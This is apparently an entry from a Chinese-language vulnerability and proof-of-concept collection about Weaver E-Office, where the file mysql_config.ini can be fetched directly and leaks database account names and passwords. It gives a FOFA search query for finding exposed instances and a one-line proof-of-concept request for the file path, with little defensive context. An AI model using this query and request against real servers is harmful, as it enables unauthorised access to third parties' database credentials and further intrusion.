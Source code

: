 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

<a-checkbox checked>泛微 E-Office</a-checkbox></br>

## FOFA

<a-checkbox checked>app="泛微-EOffice"</a-checkbox></br>

## 漏洞复现

产品页面

![img](../../../.vuepress/public/img/1628480634885-fb632cc0-9146-482e-80f3-b37c3e9b5990.png)

验证POC

```php
/mysql_config.ini
```

![img](../../../.vuepress/public/img/1628480658765-2ba02ffc-962a-48ac-a708-26bfaddf8182.png)